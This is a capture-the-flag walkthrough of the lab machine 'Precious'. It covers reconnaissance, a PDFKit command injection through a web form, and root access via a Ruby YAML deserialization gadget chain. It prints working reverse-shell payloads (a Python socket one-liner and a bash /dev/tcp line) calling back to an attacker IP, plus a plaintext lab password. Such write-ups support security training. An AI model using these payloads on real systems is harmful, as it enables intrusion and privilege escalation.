 ```yaml
---
cover: ../../../../.gitbook/assets/Precious.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Precious

First, I scan the remote host.

```sh
nmap -sC -sV 10.10.11.189
```

I have 2 ports :&#x20;

<figure><img src="../../../../.gitbook/assets/precious-nmap-scan.png" alt=""><figcaption></figcaption></figure>

I add vhost dns on local with `echo '10.10.11.189 precious.htb' | tee -a /etc/hosts`. The web service runs on `nginx 1.18.0`, I find a code injection for the form :

```sh
http://%20`sleep 1`		# it sleeps
```

Then I find a vulnerability on this [tool](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). I start a netcat listener on local :

```sh
nc -lnvp 1234
```

And I inject this code into the form on remote :

```
http://%20`python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect(("10.10.14.9", 1234)); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'`
```

I get the reverse shell as `ruby` :&#x20;

<figure><img src="../../../../.gitbook/assets/precious-reverse-shell.png" alt=""><figcaption></figcaption></figure>

I upgrade shell with `python3 -c "import pty;pty.spawn('/bin/bash')"`. I create a SSH key on local with `ssh-keygen` and I add the public key on remote `/home/ruby/.ssh/authorized_keys`. Now, I have SSH access and a real shell with `ssh ruby@precious`. I check all ruby's files with `find / -gid 1001 2>/dev/null` and there is an interesting file :&#x20;

<figure><img src="../../../../.gitbook/assets/precious-check-file.png" alt=""><figcaption></figcaption></figure>

I check the file content and I find henry's credentials :&#x20;

<figure><img src="../../../../.gitbook/assets/precious-henry-credentials.png" alt=""><figcaption></figcaption></figure>

Thus I can try SSH connection with `henry:Q3c1AqGHtoI0aXAYFH` such as `ssh henry@precious.htb`. It works :

```sh
cat /home/henry/user.txt
```

As `henry`, I check sudo permissions with `sudo -l` and I get :&#x20;

<figure><img src="../../../../.gitbook/assets/precious-sudo-list.png" alt=""><figcaption></figcaption></figure>

I can execute with no password :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

* `secure_path` : the variable `PATH` in the command execution environment has the `secure_path` value.
* `mail_badpass` : if I fail a sudo command, it will log it.
* `env_reset` : the command is executed in a new minimal environment with these variables \[TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME, SUDO\_\*].

The `/opt/update_dependencies.rb` file's content is :

```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

And the `dependencies.yaml` content is :

```yml
yaml: 0.1.1
pdfkit: 0.8.6
```

To execute the script, I have to go to specific location :&#x20;

<figure><img src="../../../../.gitbook/assets/precious-exec-sudo.png" alt=""><figcaption></figcaption></figure>

The script goes right only because I'm on the `/opt/sample` path. If I go to `home/henry`, it throws an exception. Thus the script loads the `dependencies.yml` form the current working directory. I create a new `dependencies.yml` at `/home/henry` and add it the following code block :

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.9/1234 0>&1'"
         method_id: :resolve
```

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

I start a netcat listener on the local host with `nc -lnvp 1234` and execute the instruction :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

I gain root privilege on remote host !

```sh
cat /root/root.txt
```
